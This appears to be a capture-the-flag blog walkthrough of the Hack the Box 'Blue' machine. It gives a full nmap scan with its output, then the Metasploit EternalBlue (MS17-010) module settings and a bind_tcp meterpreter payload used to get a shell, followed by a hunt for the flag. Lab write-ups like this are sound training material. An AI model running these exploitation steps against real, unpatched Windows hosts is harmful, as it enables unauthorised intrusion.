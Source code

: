 ```yaml
---
title: Blue - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Blue.png
---
```

---
title: 2024-10-12-Blue - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Blue.png
---
![Image](/assets/Blue.png)

Blue is perhaps the most trademarked and popular box on the platform, and for good reason. It's a very easy and simple setup meant to test the attacker's understanding of metasploit, CVE research, and basic linux commands. There is no better place to start, so why don't we?
# Scan

Our Scan:
`nmap -sV -sC --open -p- 10.10.10.40` 

The Result:
```
Nmap scan report for 10.10.10.40
Host is up (0.13s latency).
Not shown: 64243 closed tcp ports (reset), 1283 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m56s, deviation: 34m34s, median: 1s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-09-03T00:23:26
|_  start_date: 2024-09-03T00:20:34
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC
|   Workgroup: WORKGROUP
|_  System time: 2024-09-03T01:23:29+01:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.69 seconds
```

Our NMAP scan gives us solid information. We've got host names, remote procedure call (RPC) ports, etc. The gem here lies in the smb scripts NMAP has run for us! We can see an outdated version of Windows 7, and upon further research, can recognize the vulnerability in MS17_010 or Eternal Blue. This will be our attack vector.

# Initial Access

In order to press on, we need to fire up msfconsole, and search for our proper exploit.

`search exploit/windows/smb/ms17_010_eternalblue` 

Once found, we can configure out options to reflect:

`RHOSTS: 10.0.10.40`
`RPORT: 445`
`LHOST: 10.0.2.15`
`LPORT: 4444`

Additionally, the `reverse/tcp` recommended payload kept throwing errors for me, so I opted for a `bind_tcp` meterpreter session instead.

`set payload windows/x64/meterpreter/bind_tcp`

This yields a shell:

![Image](/assets/Screenshot 2024-09-02 at 9.13.55 PM.png)

Now, we need to root around for a flag. Use `pwd` and `ls` to scope surroundings, and use `cd ../` to backtrack out of the nonsense. Once the users directory is found, navigate towards the desktop, where the flag resides. I'll let you grab these for yourself! 

#easy #windows #msfconsole 
